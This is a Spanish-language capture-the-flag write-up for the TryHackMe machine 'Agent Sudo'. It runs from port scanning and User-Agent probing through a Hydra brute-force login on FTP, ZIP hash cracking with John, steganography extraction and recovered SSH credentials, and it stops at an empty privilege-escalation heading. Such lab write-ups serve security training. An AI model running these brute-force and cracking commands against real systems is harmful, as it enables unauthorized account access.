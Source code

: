 # Resolución de la Máquina: Agent Sudo

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 16/06/2025
- **Sistema Operativo:** Linux


## Descripción

**Agent Sudo** es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es útil para practicar:

> Enumeración web y de servicios básicos

> Comprensión de inyecciones simples o ejecución remota de comandos

> Técnicas básicas de post-explotación

> Identificación de binarios con permisos indebidos en sistemas Linux  


## Enumeración

### Escaneo con Nmap

```bash
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.220.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-16 12:03 EDT
Nmap scan report for 10.10.220.41
Host is up (0.060s latency).
Not shown: 63608 closed tcp ports (reset), 1924 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.33 seconds
```
## Intrusión
Accediendo mediante navegador al http encontraremos el siguiente mensaje:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
Para continuar es importante que entendamos el concepto de User-Agent.
El User-Agent es una cabecera HTTP que los clientes (como navegadores web, herramientas como curl, bots, etc.) envían al servidor cada vez que hacen una petición, este permite que los servidores web adapten su comportamiento en función del cliente que se conecta.

Mediante curl podremos enviar User-Agents que creamos que pueden ser propensos a existir en la web (-A "x"), con -L habilitaremos la redirección, para que en caso de que el User-Agent exista nos pueda redirigir hacia el.
`curl -A "C" -L http://10.10.156.39/`
**También podriamos haber utilizado la función responder de Burpsuite**

## Obtención de acceso
Una vez obtenido el usuario "chris" procederemos a lanzar un ataque de diccionario con hydra
```bash
$ hydra -l chris -P /home/kali/Downloads/rockyou.txt 10.10.156.39 ftp      
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-16 12:42:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.156.39:21/
[21][ftp] host: 10.10.156.39   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-16 12:43:31
```
Una vez conectados al FTP nos descargaremos todo el contenido con el comando get.

Utilizaremos binwalk, este escanea el archivo binario buscando firmas de archivos conocidas (por ejemplo, firmas de ZIP, JPEG, gzip, squashfs, etc.) usando una base de datos interna.
```bash
$ binwalk cutie.png      

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Vemos que este ha detactado contenido oculto en la imágen, por lo que procederemos a extrarlo
```bash
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
869           0x365           Zlib compressed data, best compression

WARNING: Extractor.execute failed to run external extractor 'jar xvf '%e'': [Errno 2] No such file or directory: 'jar', 'jar xvf '%e'' might not be installed correctly
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented
```

Nos encontraremos con un archivo zip protegido con contraseña, ahora utilizaremos zip2john, su función es extraer hashes de archivos zip.

```bash
─$ zip2john 8702.zip > hash.txt

─$ john --wordlist=/home/kali/Downloads/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2025-06-16 13:01) 1.162g/s 28576p/s 28576c/s 28576C/s merlina..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Veremos que obtenemos la contraseña alien, una vez descomprimido el zip nos encontraremos un txt con la siguiente información: QXJlYTUx
Al pasarlo por la web de cyberchef veremos que esta en base64 y lo decodifica como: Area51

A continuación utilizaremos steghide, una herramienta de esteganografía, que permite ocultar datos dentro de archivos multimedia (como imágenes JPEG, BMP o archivos WAV) y extraerlos posteriormente.
```bash
-$ steghide extract -sf  cute-alien.jpg -p Area51
wrote extracted data to "message.txt".
```
**-sf hace referencia al stego file y -p a la contraseña**

Obtendremos las siguientes credenciales: james - hackerrules!
Accederemos mediante ssh con estas credenciales.

## Escalada de privilegios
